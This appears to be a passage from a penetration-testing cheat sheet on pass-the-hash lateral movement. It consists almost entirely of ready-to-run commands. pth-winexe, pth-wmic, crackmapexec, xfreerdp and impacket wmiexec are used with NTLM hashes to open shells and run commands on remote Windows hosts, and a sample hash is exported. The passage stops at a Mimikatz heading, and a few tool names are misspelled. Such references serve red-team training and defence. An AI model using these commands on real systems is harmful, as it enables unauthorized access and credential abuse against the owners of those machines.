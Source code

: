             -   pth-winexe: (/usr/bin/pth-winexe) executes interactively a command on remote computers

            -   pth-wmic: (/usr/bin/pth-wmic) executes WMI queries on remote computers

            -   pth-wmis: (/usr/bin/pth-wmis) executes a command using WMI on remote computers

        -   **Examples**

            -   pth-winexe -U \<user\>%\<ntlm\> //\<ip\> command

            -   pth-winexe -U DOMAIN/\<user\>%\<ntlm\> //\<ip\> command

            -   pth-winexe -U administrator%\<hash\> //ip cmd.exe    (work good for admin account)

            -   pth-winexe -U WORKGROUP/administrator%ntlm:Lm //192.168.0.101 cmd

            -   pth-wmic -U WORKGROUP/Administrator%\<ntlm\>:\<LM\> //192.168.1.25 \"select Name from Win32\_UserAccount\"

            -   pth-wims -U WORKGROUP/Administrator%\<ntlm\>:\<LM\> //192.168.1.25 \"cmd.exe /c whoami \> c:\\temp\\result.txt\"

            -   pth-smbclient -U WORKGROUP/Administrator%\<ntlm\>:\<LM\> //192.168.1.25/c\$

            -   pth-rpcclient -U WORKGROUP/Administrator%\<ntlm\>:\<LM\> //192.168.1.25

            -   Another method

                -   export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896

                -   pth-winexe -U administrator //192.168.1.101 cmd

    -   **crackmapexec (linux platform)**

        -   git clone https://[github.com]/byt3bl33d3r/CrackMapExec.github

        -    cme smb 192.168.1.100 -u Administrator -H \":ntlm\_hash\" -x \'whoami\' \# cmd

        -    cme smb 192.168.1.100 -u Administrator -H \":ntlm\_hash\" -X \'whoami\' \# powershell

        -    cme smb 192.168.1.100 -u Administrator -H \":ntlm\_hash\" \--exec-method atexec -x \'whoami\'

        -    cme smb 192.168.1.100 -u Administrator -H \":ntlm\_hash\" \--exec-method wmiexec -x \'whoami\'

        -    cme smb 192.168.1.100 -u Administrator -H \":ntlm\_hash\" \--exec-method smbexec -x \'whoami\'

    -   **xfreerdp (linux platform)**

        -   apt-get install freerdp-x11

        -   xfreerdp /u:\<user\> /d:\<domain\> /pth:{ntlm} /v:\<ip\>:3389 /dynamic-resolution

        -   xfreerdp /u:didi /d:win2012 /pth:{ntlm\_hash} /v:192.168.1.5

    -   **Lmpacket (windows platform)**

        -   git clone <https://github.com/maaaaz/impacket-examples-windows.git>

        -   impacket-wmiexec \<user\>@\<ip\> -hashes \<lm:nt\>

        -   python wmiexec.py -hashes :\<hash\> \<user\>@\<ip\>

        -   ./wmiexec.py -hashes \<ntlm\>:\<lm\> administrator\@192.168.1.4   

    -   **Mimikatz (windows platform)**
